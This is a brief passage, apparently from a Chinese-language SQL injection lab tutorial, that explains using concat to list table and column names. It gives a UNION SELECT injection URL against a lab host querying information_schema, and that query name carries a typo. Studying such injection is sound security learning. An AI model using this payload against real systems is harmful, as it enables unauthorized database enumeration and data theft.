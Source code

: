 ![](img/20181102-32.png)
    
使用concat，把列名和对应表名连接为一个字符串一同输出，设置url为 `http://192.168.163.3/cat.php?id=2 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columnss`
 
![](img/20181102-33.png)
